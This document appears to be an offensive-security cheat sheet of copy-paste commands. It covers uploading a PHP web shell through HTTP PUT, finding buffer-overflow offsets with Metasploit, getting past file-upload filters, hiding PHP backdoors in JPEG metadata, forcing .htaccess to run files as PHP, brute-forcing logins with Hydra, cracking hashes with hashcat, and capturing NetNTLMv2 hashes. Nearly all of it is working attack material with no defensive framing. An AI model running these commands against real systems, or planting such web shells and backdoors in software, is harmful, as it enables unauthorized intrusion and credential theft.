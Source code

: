 ### PUTing File on the Webhost via PUT verb

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php

### Injecting PHP into JPEG

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php

```text
AddType application/x-httpd-php .blah
```

### Cracking Passwords

#### Cracking Web Forms with Hydra

```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### Cracking Common Protocols with Hydra

```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### HashCat Cracking

```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout

# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
```